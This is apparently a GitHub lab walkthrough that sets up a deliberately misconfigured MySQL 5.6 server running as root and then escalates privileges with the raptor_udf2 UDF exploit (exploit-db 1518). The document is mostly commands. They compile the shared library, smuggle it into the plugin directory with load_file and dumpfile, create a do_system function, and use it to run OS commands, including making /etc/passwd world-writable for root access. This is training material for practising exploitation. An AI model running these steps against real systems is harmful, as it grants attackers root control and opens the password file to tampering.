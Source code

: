 # PE_via_SQL_on_root_(UDF)

# Setting-up lab:

## Download and Install Required Packages

```
wget <https://downloads.mysql.com/archives/get/p/23/file/mysql-common_5.6.51-1debian9_amd64.deb>
wget <https://downloads.mysql.com/archives/get/p/23/file/mysql-community-client_5.6.51-1debian9_amd64.deb>
wget <https://downloads.mysql.com/archives/get/p/23/file/mysql-client_5.6.51-1debian9_amd64.deb>
wget <https://downloads.mysql.com/archives/get/p/23/file/mysql-community-server_5.6.51-1debian9_amd64.deb>
wget <https://downloads.mysql.com/archives/get/p/23/file/mysql-server_5.6.51-1debian9_amd64.deb>

```

## Missing dependencies if any

Add the Debian repo 

```
sudo vim /etc/apt/sources.list
```

Add the following line at the end:

```
 deb <http://archive.debian.org/debian> stretch main
```

Update and Install Dependencies

```
sudo apt update
sudo apt install -y libaio1 libncurses5 libtinfo5
```

## Install the Packages in Order

```
sudo dpkg -i mysql-common_5.6.51-1debian9_amd64.deb
sudo dpkg -i mysql-community-client_5.6.51-1debian9_amd64.deb
sudo dpkg -i mysql-client_5.6.51-1debian9_amd64.deb
sudo dpkg -i mysql-community-server_5.6.51-1debian9_amd64.deb
sudo dpkg -i mysql-server_5.6.51-1debian9_amd64.deb
```

Start and set to start on boot

```
sudo systemctl start mysql
sudo systemctl enable mysql
```

Verify MySQL version:

```
mysql --version
```

## Change user to root:

```
sudo vim /lib/systemd/system/mysql.service
```

Find:

```
User=mysql
Group=mysql
```

Change to:

```
User=root
Group=root
```

Restart:

```

 sudo systemctl daemon-reload
 sudo systemctl restart mysql
```

Now MySQL will run as root. 🚀

## Run service for local host:

```
sudo vim /etc/mysql/mysql.conf.d/mysqld.cnf
```

Find the bind-address and change it to local host:

```
bind-address = 127.0.0.1
```

Create a mysql user:

```
mysql -u root -p
```

Inside MYSQL, run

```

CREATE USER 'hacker'@'localhost' IDENTIFIED BY 'password';
GRANT ALL PRIVILEGES ON *.* TO 'hacker'@'localhost' WITH GRANT OPTION;
FLUSH PRIVILEGES;

```

## Disable secure-file-priv:

Edit file /etc/mysql/mysql.conf.d/mysqld.cnf:

```
sudo vim /etc/mysql/mysql.conf.d/mysqld.cnf
```

Give secure-file-priv an empty value

```
secure-file-priv=
```

Restart MYSQL:

```
sudo systemctl restart mysql
```

## Enumeration:

```
netstat -nltup
```

```
ps -aux | grep "mysql"
```

# Exploiatation

login mysql as mysql user

```
mysql -u hacker -p password
```

check version:

```
select @@version;
```

check architecture:

```
select @@version_compile_os, @@version_compile_machine;
show variables like '%compile%';
```

The exploit that has been used

  [https://www.exploit-db.com/exploits/1518](https://www.exploit-db.com/exploits/1518)

Compile it

```
gcc -g -c 1518.c
```

Into library .so

```
gcc -g -shared -Wl,-soname,raptor_udf2.so -o [1518_udf.so](http://1518.so/) 1518.o -lc
```

Find any writable directory and move the 1518_udf.so in to that directory(not neccessary , you can use current directory)

```
mv ./1518_udf.so /tmp
```

now to exploit UDF:

inside mysql:

```
use mysql;
```

create a table named foo

```
create table foo(line blob);
```

use load-file function to insert the content into the table.

```
insert into foo3 values(load_file('/tmp/1518_udf.so'));
```

Check plugin dir location:

```
 select @@plugin_dir;
```

Dump that inserted shared library content in the plugin directory location.

```
select * from foo3 into dumpfile '/usr/lib/mysql/plugin/1518_udf.so';
```

 Create function:

```
create function do_system returns integer soname '1518_udf.so';
```

Use function for exploitation:

```
 select do_system('ping -c 4 192.168.0.225');      
```

Change the permission of /etc/passwd to 777 for root access

```
 select do_system('chmod 777 /etc/passwd');
```
